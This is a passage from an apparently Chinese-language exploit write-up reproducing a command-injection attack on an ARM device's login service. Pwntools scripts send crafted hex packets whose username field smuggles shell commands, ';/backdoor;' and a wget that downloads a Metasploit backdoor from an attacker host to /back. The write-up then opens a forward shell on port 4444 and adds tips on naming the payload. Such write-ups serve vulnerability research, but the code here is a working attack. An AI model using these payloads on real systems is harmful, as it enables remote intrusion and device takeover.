 ```python
payload3_password = b"cyberangel"
encode3_username = payload3_username.hex()
encode3_password = payload3_password.hex()
data3=bytes.fromhex(
    f"00420241001c42af5b3a004f525400123456555345524e414d453a{encode3_username}0950415353574f52443a{encode3_password}0953484152455f5245513a30094654505f5245513a30")
p.send(data3)

payload4_username = b";/backdoor;"				# 执行backdoor
payload4_password = b"cyberangel"
encode4_username = payload4_username.hex()
encode4_password = payload4_password.hex()
data4=bytes.fromhex(
    f"00420241001c42af5b3a004f525400123456555345524e414d453a{encode4_username}0950415353574f52443a{encode4_password}0953484152455f5245513a30094654505f5245513a30")
p.send(data4)

p.close()
```

先在虚拟机上监听：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669797404350-c3d7b8d1-259b-43d8-9dcc-d75ecc71da35.png)

正向shell的生成步骤如下（默认向外映射端口为4444），exp稍微变动一下msf文件名称就行：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669797869709-fc6a0dc5-984d-416b-8422-c25d64762094.png)

```python
from pwn import *
from threading import Thread
context.log_level="debug"
context.arch="arm"
context.endian="little"
# （和exp4.py一样）...
payload2_username = b";wget http://192.168.5.2:8080/back -O /back;"
# 略...

p.close()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669799439243-4f1e09ff-cc98-40fd-a579-49b0ce20e034.png)

> 注意：关于backdoor文件的命名注意简短，否则可能会出现wget文件之后落地文件的命名不正确，比如`msf-arm-positive`落地后文件名称变为了`b,`：
>
> + `payload2_username = b";wget http://192.168.5.2:8080/msf-arm-positive -O /back;"`
>
> ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1669799599787-0a9ef07a-a512-4f21-b3a7-a383aa37506f.png)
>

# 3、总结
在实际利用的过程中我遇到了以下难题：
